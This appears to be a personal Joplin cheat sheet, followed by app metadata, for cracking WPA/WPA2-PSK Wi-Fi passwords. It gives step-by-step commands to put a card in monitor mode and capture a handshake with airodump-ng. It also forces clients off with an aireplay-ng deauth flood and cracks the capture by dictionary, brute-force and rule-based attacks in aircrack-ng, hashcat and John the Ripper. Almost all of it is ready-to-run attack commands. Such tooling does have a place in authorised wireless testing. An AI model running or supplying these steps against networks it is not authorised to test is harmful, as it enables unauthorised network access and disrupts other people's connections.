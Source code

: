 Cracking WEP/WPA/WPA 2 PSK Authetication

## Capture Handshake

1. airmon-ng start wlan0
2. airodump-ng mon0 --write capture.cap -c 11
3. aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0

Convert pcap files for john and hashcat

/usr/lib/hashcat-utils/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
/usr/sbin/hccap2john
/usr/sbin/vncpcap2john
/usr/sbin/wpapcap2john


## Cracking Handshake with Aircrack

- aircrack-ng -w /usr/share/wordlist/fasttrack.txt 0001.cap

## Cracking Handshakes with Hashcat

- hashcat.exe -m 2500 capture.hccapx rockyou.txt (Dictionary Attack)
- hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d (Brute-Force)
- hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt (Rule-Based)

## Cracking Handshakes with John The Ripper

Did you run hccap2john?

- john --format=wpapsk --wordlist=/usr/share/wordlists/rockyou.txt crackmecap
- john --format=wpapsk-opencl --wordlist=/usr/share/wordlists/rockyou.txt crackmecap



Other Resources: 

https://github.com/lgandx/PCredz 

id: fe6e4250715347dd867e8126b7eb29e8
parent_id: 534264958439437cb8726c7ad54e83ff
created_time: 2019-11-22T19:44:19.669Z
updated_time: 2019-11-26T22:03:36.969Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2019-11-22T19:44:19.669Z
user_updated_time: 2019-11-26T22:03:36.969Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1